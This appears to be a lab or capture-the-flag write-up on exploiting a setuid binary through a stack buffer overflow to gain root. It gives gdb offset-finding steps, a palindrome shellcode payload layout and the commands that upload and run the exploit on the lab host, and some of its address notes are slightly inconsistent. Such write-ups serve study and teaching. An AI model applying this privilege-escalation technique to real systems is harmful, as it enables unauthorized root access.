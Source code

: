 # 2362e5_binary_exploitation



```
-r-sr-xr-- 1 root  blade 11152 Aug 29 00:07 neuromancer*

blade@en2720-w1-buckeye:~$ file neuromancer
neuromancer: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=7205a1743b8d5fe771346009d5d33457004eaa77, with debug_info, not stripped
````

Obviously, it is SUID privilege escalation challenge and buffer overflow is the way to go.


Using buffer overflow, we can overwrite the return address of the function to point to our shellcode. Because of 64-bit architecture, we use `rip` and `rsp` registers
* rip: instruction pointer
* rsp: stack pointer

Now, we need to find the address of return pointer as return pointer points to next instruction we can make cpu execute any instruction just by replacing return pointer with correct address. Gradually increase the size of input.
```
gdb ./neuromancer
> disas  main
> break neuromancer.c:44
> run $(python3 -c "print('\x41'*148)") 
> x/200xb $rsp  # the buffer address starts at 0x7fffffffe3c0, it is 6 bytes.



> run $(python3 -c "print('\x41'*158)") 
> 0x0000414141414141 in ?? ()   # we find the return pointer is overwritten with 6 bytes of 'A'.
> info frame

All payload: 158 bytes
buffer: 128 bytes
alignment: 16 bytes
rbp: 8 bytes
return pointer: 6 bytes

```

Next, we need to make the exploit. Usually, the exploit is `nop + shellcode + junk/nop + return_addr`. But here we need to build a Palindrome. There are a few shellcode available online. I used [https://www.exploit-db.com/exploits/13320] one 48 bytes.
```
# the return address should be before the shellcode
# I pick 0x7fffffffe3f8 address as return address
# 0x7fffffffe3c8 - 0x7fffffffe3c0 = 8 bytes
reverse_return_addr(6) + nop(25) + shellcode(48) + reverse_shellcode + nop + return_addr

# the buffer address starts at 0x7fffffffe3f0, which is different from 0x7fffffffe3c0. So the start address of buff is different when using gdb and when running the program normally.
# so we change the return address to 0x7fffffffe3f8

# The most CPUs we use daily are little endian. It means we have to put the address in reverse order of bytes. 
```



```
# kali machine
scp -P 52961 -i id_rsa_blade solve.py blade@10.0.7.225:/home/blade/

# the target 10.0.7.225
./neuromancer $(python3 solve.py)

```

reference:
* https://ret2rop.blogspot.com/2018/08/stack-based-buffer-overflow-x64.html
* https://ravi5hanka.medium.com/privilege-escalation-in-linux-via-a-local-buffer-overflow-dcee4f9b4a49